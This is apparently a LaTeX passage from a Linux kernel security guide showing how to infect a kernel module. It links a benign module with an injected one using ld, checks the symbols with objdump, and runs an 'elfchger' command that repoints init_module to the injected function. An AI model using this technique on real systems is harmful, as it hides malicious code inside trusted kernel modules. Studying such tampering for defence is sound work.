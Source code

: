\begin{enumerate}
	\item \textbf{Merge modules : } ld assembles modules to produce a final one as shown in \textbf{Figure \ref{Meging modules using ld}}.
    		\begin{figure}[H]
					\centering
        			\includegraphics[scale=0.5]{img/solution/combining-modules-linux.png}
        			\caption{Meging modules using ld}
        			\label{Meging modules using ld}
   			 \end{figure}	
	
	\textbf{kernel-module-infected.ko} is merly a combination of \textbf{kernel-module-safe.ko} and \textbf{kernel-module-to-inject.ko}.
	
	\item \textbf{Analyse the resulting module :} We can dump module's symbols table (objdump is helpful when debugging ELF files) of as follow :
\begin{lstlisting}[style=BashInputStyle]
$ objdump -t kernel-module-infected.ko

kernel-module-infected.ko:     format de fichier elf32-i386

SYMBOL TABLE:
............
# init function of kernel-module-safe.ko
00000000 l     F .init.text	00000014 mon_module_init 
00000000 l     F .exit.text	00000012 mon_module_cleanup
............
............
# init function of kernel-module-to-inject.ko
00000014 l     F .init.text	00000014 fak_module_init 
............
............
00000000 g     F .exit.text	00000012 cleanup_module
00000000 g     F .init.text	00000014 init_module
00000000         *UND*	00000000 printk
\end{lstlisting}

The reader can notice that \og \textbf{fak\_module\_init} \fg has been linked correctly.\\
All what is left is forcing \og \textbf{init\_module} \fg to point to our malicious symbol \\ \og \textbf{fak\_module\_init} \fg  (\emph{at location 00000014}).

\item \textbf{Make init\_module as an alias of fak\_module\_evil : } init\_module should point to our malicious function. One may do it by tampering the sections of \textbf{kernel-module-infected.ko} but a knowledge of ELF file format is required. A program called \og elfchger \fg can edit ELF files quickly and easily ({\color{blue}\url{https://github.com/jugurthab/Linux_kernel_debug/blob/master/debug-examples/Chap6-kernel-security/kernel/module-tampering/elfchger.c}}) as shown below :
\begin{lstlisting}[style=BashInputStyle]
./elfchger -s init_module -v 00000014 kernel-module-infected.ko
\end{lstlisting}


\end{enumerate}
